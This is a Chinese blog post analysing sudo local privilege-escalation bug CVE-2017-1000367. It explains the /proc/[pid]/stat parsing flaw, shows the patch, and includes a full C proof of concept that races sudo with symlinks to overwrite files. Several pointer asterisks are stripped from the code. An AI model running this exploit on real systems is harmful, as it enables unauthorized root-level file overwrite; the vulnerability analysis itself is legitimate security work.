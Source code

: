 ```yaml
---
layout: post
title: sudo本地提权 CVE-2017-1000367 漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;该漏洞发生在/src/ttyname.c的`get_process_ttyname()`函数，sudo在获取tty设备号时没有正确解析/proc/[pid]/stat的内容。首先，/proc/[pid]的stat包含了所有的CPU活跃信息，有关触发此漏洞的两个stat参数分别为：
```
第2个：comm应用程序或命令的名字
第7个：tty_nr也就是tty设备号
```

这些参数是使用空格进行分割的，再来看看get_process_ttyname()函数是怎么获取`tty_nr`的：

```
len = getline(&line, &linesize, fp);
fclose(fp);
if (len != -1) {
    / Field 7 is the tty dev (0 if no tty) /
    char cp = line;
    char ep = line;
    const char errstr;
    int field = 0;
    while (++ep != '\0') {
        if (ep == ' ') {
            ep = '\0';
            if (++field == 7) {
                dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
                if (errstr) {
                    sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                        "%s: tty device %s: %s", path, cp, errstr);
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;程序在获取tty_nr时也就是根据多少空格个来判断当前是哪个参数，那么上面提到的第2个参数comm，这个参数是以括号独立起来的，并且程序或命令的名字当然允许包含空格。那么就可以通过控制comm参数的空格导致tty_nr的值同样被控制，使得本地攻击者来覆盖文件系统上的任何文件，从而绕过预期权限或获取root shell。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;再来看看补丁，补丁第一处是将get_process_ttyname()函数在获取tty_nr时从’)’后开始获取，这样避免了comm包含空格的特性：

```
if (nread == 0 && memchr(buf, '\0', cp - buf) == NULL) {
    /
      Field 7 is the tty dev (0 if no tty).
      Since the process name at field 2 "(comm)" may include
      whitespace (including newlines), start at the last ')' found.
     /
    cp = '\0';
    cp = strrchr(buf, ')');
    if (cp != NULL) {
    char ep = cp;
    const char errstr;
    int field = 1;

    while (++ep != '\0') {
        if (ep == ' ') {
        ep = '\0';
        if (++field == 7) {
            dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
            if (errstr) {
            sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                "%s: tty device %s: %s", path, cp, errstr);
            }
            if (tdev > 0) {
            errno = serrno;
            ret = sudo_ttyname_dev(tdev, name, namelen);
            goto done;
            }
            break;
        }
        cp = ep + 1;
        }
    }
    }
}
```

第二处是添加了搜索设备号对应的设备名的两个地址：

```
 static char ignore_devs[] = {
     "/dev/fd/",
+    "/dev/mqueue/",
+    "/dev/shm/",
     "/dev/stdin",
     "/dev/stdout",
     "/dev/stderr",
```

POC:

```
#define _GNU_SOURCE
#include <errno.h>
#include <linux/sched.h>
#include <pty.h>
#include <sched.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/inotify.h>
#include <sys/resource.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/wait.h>

#define EVENT_SIZE  ( sizeof (struct inotify_event) )
#define EVENT_BUF_LEN     ( 1024  ( EVENT_SIZE + 16 ) )


int main( )
{

    int length, i = 0;
  int fd;
  int wd;
  char buffer[EVENT_BUF_LEN];

    int master, slave;
    char pts_path[256];

    cpu_set_t  mask;
    struct sched_param params;
    params.sched_priority = 0;
    CPU_ZERO(&mask);
    CPU_SET(0, &mask);

    mkdir("/dev/shm/_tmp", 0755);
    symlink("/dev/pts/57", "/dev/shm/_tmp/_tty");
    symlink("/usr/bin/sudo", "/dev/shm/_tmp/     34873 ");

    fd = inotify_init();
    wd = inotify_add_watch( fd, "/dev/shm/_tmp", IN_OPEN | IN_CLOSE_NOWRITE );

     pid_t pid = fork();

    if(pid == 0) {
        sched_setaffinity(pid, sizeof(mask), &mask);
        sched_setscheduler(pid, SCHED_IDLE, &params);
        setpriority(PRIO_PROCESS, pid, 19);

        sleep(1);
        execlp("/dev/shm/_tmp/     34873 ", "sudo", "-r", "unconfined_r", "/usr/bin/sum", "—\nHELLO\nWORLD\n", NULL);
    }else{
        setpriority(PRIO_PROCESS, 0, -20);
        int state = 0;
        while(1) {
            length = read( fd, buffer, EVENT_BUF_LEN );
            kill(pid, SIGSTOP);

            i=0;
            while ( i < length ) {
                struct inotify_event event = ( struct inotify_event * ) &buffer[ i ];

                if ( event->mask & IN_OPEN ) {
                    //kill(pid, SIGSTOP);

                    while(strcmp(pts_path,"/dev/pts/57")){
                        openpty(&master, &slave, &pts_path[0], NULL, NULL);
                    };
                    //kill(pid, SIGCONT);
                    break;

                }else if ( event->mask & IN_CLOSE_NOWRITE ) {
                    //kill(pid, SIGSTOP);

                    unlink("/dev/shm/_tmp/_tty");
                    symlink("/etc/motd", "/dev/shm/_tmp/_tty");
                    //kill(pid, SIGCONT);

                    state = 1;
                    break;
                }

                i += EVENT_SIZE + event->len;

            }
            kill(pid, SIGCONT);
            if(state == 1) break;
        }

        waitpid(pid, NULL, 0);
        inotify_rm_watch( fd, wd );
        close( fd );
        close(wd);

        unlink("/dev/shm/_tmp/_tty");
        unlink("/dev/shm/_tmp/     34873 ");
        rmdir("/dev/shm/_tmp");
        close(master);
        close(slave);
    }

}
```

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/4refdergth.png">

